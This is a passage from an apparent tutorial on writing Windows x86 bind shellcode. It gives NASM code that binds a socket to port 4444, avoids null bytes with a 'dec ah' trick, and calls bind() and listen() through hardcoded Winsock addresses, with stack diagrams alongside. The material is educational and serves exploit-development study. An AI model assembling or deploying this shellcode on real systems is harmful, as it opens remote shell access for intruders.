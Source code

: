 What we need to do is to have a pointer to the following values and pass it as the second argument:
```text
5c110002
00000000
```

Notice that there are null bytes in the value for AF_INET. This can be solved by storing 0x5c110102 in EAX and doing `dec ah`, which will only decrement the ah section of EAX by one. 

Explanation:
+ eax = 0x5c110102  
+ ax = 0x0102 (lowest 16 bits of eax)
+ al = 0x02 (lowest 8 bits of ax) 
+ ah = 0x01 (highest 8 bits of ax)  

```nasm
xor eax, eax         ; Clear eax
push eax             ; Push 0 on the stack to define INADDR_ANY.
mov eax, 0x5c110102 
dec ah               ; eax: 0x5c110102 -> 0x5c110002 (Mitigating null byte)
push eax             ; Push 0x5c110002 on stack
mov eax, esp         ; Since the 2nd arg is expected to be a pointer, we store the pointer to 0x5c110002 in eax
push 0x10            ; Arg3 (namelen) = 16 bytes
push eax             ; Arg2 (*addr) = eax -> 0x5c110002 (5c11 = 4444, 0002 = AF_INET)
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71AB4480  ; Address to bind()
call eax
```

The stack looks like this right before calling bind():

```text
   Addr        Value
   00000001    00000064 (Arg1, SOCKET s)
   00000002    00000004 (Arg2, const sockaddr *addr) ---
   00000003    00000010 (Arg3, int namelenn)            |
-> 00000004    5c110002                                 |
|  00000005    00000000 (INADDR_ANY)                    | 
--------------------------------------------------------
```

## System call: listen

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-listen">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-listen</a>

Syntax:
```nasm
listen(SOCKET s, int backlog)
```

To get incoming connections, we need to call the listen() function, which is very simple to implement.

```nasm
push 0x1             ; Arg2 (backlog) = 1         
push ebx             ; Arg1 (s) = WSASocket() handler
mov eax, 0x71AB8CD3  ; Address to listen()   
call eax
```
